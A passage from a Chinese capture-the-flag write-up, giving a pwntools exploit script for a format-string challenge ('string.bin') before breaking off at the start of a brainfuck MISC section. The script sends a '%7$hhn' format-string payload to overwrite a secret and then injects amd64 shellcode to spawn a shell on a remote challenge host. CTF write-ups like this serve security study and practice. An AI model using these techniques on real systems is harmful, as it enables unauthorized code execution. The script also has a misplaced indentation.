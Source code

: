 当然为了保证交互，这里还是得通过使用python的pwntools来完成:
```python
#   -*- coding:utf-8 -*-

from pwn import *

DEBUG = True
if DEBUG:
    ph = process("./string.bin")
    context.log_level = "debug"
    context.terminal= ['tmux','splitw','-h']
        gdb.attach(ph)
else:
    ph = remote("211.65.102.6",20003)
exp = 0x55*'a' + "%7$hhn"
def getAddr():
    ph.recvuntil("secret[0] is")
    sec_addr = int(ph.recvuntil("\n").strip(), 16)
    return sec_addr

def pwn(addr):
    ph.recvuntil("What should your character's name be:")
    ph.sendline("link")
    ph.recvuntil("?east or up?:")
    ph.sendline("east")
    ph.recvuntil("or leave(0)?:")
    ph.sendline("1")
    ph.recvuntil("an address'")
    ph.sendline(str(addr))
    ph.recvuntil("And, you wish is:")
    ph.sendline(exp)
    ph.recvuntil("I will help you! USE YOU SPELL")
    ph.sendline(asm(shellcraft.amd64.linux.sh(), arch='amd64'))


if __name__ == '__main__':
    addr = getAddr()
    pwn(addr)
    ph.interactive()

```

## 0x04 MISC

### ++--

#### **【原理】**

brainfuck, ( ͡° ͜ʖ ͡°)fuck

#### **【目的】**
